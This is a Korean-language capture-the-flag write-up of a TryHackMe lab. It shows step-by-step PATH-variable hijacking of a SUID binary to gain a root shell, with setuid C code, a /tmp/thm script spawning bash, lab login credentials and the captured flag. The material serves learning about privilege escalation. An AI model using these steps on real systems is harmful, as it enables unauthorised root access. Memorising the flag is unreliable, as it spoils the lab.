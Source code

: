 ## Privilege Escalation: PATH
> TryHackMe의 "Linux Privilege Escalation: PATH" 실습을 기반으로, 환경 변수 PATH를 악용하여 실행 파일 대체 공격을 수행하고 루트 권한을 획득한 과정을 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.92.239
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: `PATH` 환경 변수 조작을 통한 바이너리 하이재킹
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.92.239
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 취약 실행 파일 확인 및 준비
- `/home/murdoch` 디렉토리로 이동하니 `test` 실행 파일과 `thm.py` 파일이 존재하였다.

![murdoch 파일 발견](./screenshots/murdoch_file.png)

- `thm.py`는 Python으로 작성된 프로그램으로, 내부에서 `os.system("thm")`을 호출하고 있었다. 이 부분을 악용하기 위해 `thm.py`의 내용을 모두 제거하고 C로 작성한 setuid 프로그램 코드로 교체하였다.

```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
- 이후 파일명을 `thm.c`로 저장하였다.

![코드 확인 및 작성](./screenshots/setuid_thm.png)

---

#### 2.3 리버스 쉘용 바이너리 작성
- `/tmp` 디렉토리로 이동하여 `thm`이라는 이름으로 셸 스크립트를 작성하였다.
```bash
echo "/bin/bash" > thm
chmod +x thm
```

![thm 셸 스크립트 작성](./screenshots/shell_script.png)

---

#### 2.4 PATH 환경변수에 /tmp 추가
- `PATH` 환경 변수에 `/tmp`를 최우선으로 설정하였다.
```bash
export PATH=/tmp:$PATH
```

![PATH 설정](./screenshots/path_tmp.png)

---

#### 2.5 SUID 파일 실행 및 루트 쉘 획득
- `/home/murdoch`로 돌아와 `test` 실행 파일을 실행하였다. 이 파일은 SUID 권한을 가지고 있었으며 내부적으로 `system("thm")`을 실행하므로 `/tmp/thm`이 실행되어 루트 쉘을 획득할 수 있었다.

```bash
./test
```

![루트 쉘 획득](./screenshots/root_shell.png)

---

#### 2.6 루트 쉘 검증 및 플래그 파일 획득
```bash
find / -name flag6.txt
cat /home/matt/flag6.txt
```
- 루트 권한을 가진 상태에서 시스템을 탐색하여 플래그를 획득하였다.

![플래그 획득](./screenshots/flag_captured.png)

---

### 3. 최종 결과
- PATH 환경 변수의 우선순위 특성을 악용하여 setuid 바이너리를 통해 루트 쉘을 획득하였다.
- flag6.txt 파일에서 플래그 확보: `THM-736628929`

---

### 4. 배운 점
> ✅ 실습을 통해 PATH 환경 변수의 관리 부주의가 어떻게 치명적인 보안 취약점으로 이어질 수 있는지 체감할 수 있었다. 시스템 관리자가 경로 지정 없이 명령어를 호출하는 경우, 공격자가 원하는 실행 파일로 하이재킹이 가능하며, 특히 SUID 바이너리와 조합될 경우 권한 상승으로 직결될 수 있는 매우 위험한 구조임을 확인하였다.

